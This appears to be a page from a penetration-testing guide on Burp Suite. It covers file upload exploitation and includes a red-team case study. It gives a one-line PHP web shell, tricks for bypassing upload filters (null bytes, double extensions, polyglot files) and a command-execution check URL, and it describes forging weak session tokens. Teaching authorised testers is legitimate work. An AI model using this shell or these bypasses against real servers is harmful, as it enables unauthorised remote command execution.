 #### File Upload Exploitation

```
# Step 1: Analyze file upload mechanism
1. Intercept file upload request
2. Identify how the application processes uploads
3. Test allowed file types

# Step 2: Bypass file type restrictions
1. Send upload request to Repeater
2. Try changing Content-Type header
3. Modify file extension: shell.php → shell.php.jpg
4. Use null bytes: shell.php%00.jpg

# Step 3: Prepare malicious file
1. Create minimal PHP shell: <?php system($_GET['cmd']); ?>
2. Try different file encodings and formats
3. Test polyglot files (valid image + PHP code)

# Step 4: Upload and execute
1. Successfully upload malicious file
2. Identify upload directory from response
3. Access uploaded file with command parameter
4. Verify execution: /uploads/shell.php?cmd=id
```

> **CASE STUDY: Web Application Red Team Assessment (2023)**
> 
> During a red team engagement for a financial services client, our team identified a critical vulnerability chain using Burp Suite's integrated workflow.
> 
> Initial reconnaissance with Proxy and Target analysis revealed a legacy admin interface at /admin-portal/ that wasn't linked from the main application. Content discovery with the Discover Content tool identified this endpoint based on naming patterns from other parts of the application.
> 
> The admin interface implemented weak session management, which we analyzed using Sequencer. The session tokens showed poor randomness (effective entropy of only 33 bits) and followed a predictable pattern based on timestamp and user ID.
> 
> Using Intruder with a custom payload generator, we crafted valid session tokens for administrative users. Once authenticated as an administrator, we identified a vulnerable file upload function that accepted ZIP files. Using the Repeater tool to modify the Content-Type header and adding a double extension (.php.zip), we bypassed the upload restrictions.
> 
> The comprehensive approach using multiple Burp Suite tools in conjunction allowed us to progress from discovery to exploitation in under four hours, highlighting the importance of integrated tooling for efficient red team operations.
> 
> *Source: Sanitized red team assessment report, 2023*

### Reporting and Documentation
